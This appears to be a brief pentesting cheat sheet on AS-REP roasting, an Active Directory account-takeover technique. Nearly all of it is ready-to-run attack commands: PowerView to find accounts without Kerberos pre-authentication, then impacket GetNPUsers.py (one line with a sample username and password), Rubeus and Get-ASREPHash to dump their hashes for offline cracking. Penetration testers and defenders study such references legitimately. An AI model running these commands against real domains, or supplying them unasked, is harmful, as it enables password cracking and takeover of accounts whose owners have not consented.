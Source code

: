

Account takeover techniques

<b>ASREP-Roasting:</b>

Detect - Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
Exploit - python GetNPUsers.py CHANGEME.LOCAL/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
Exploit - python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
Exploit(Windows) -    .\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Exploit(Windows) -    Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)

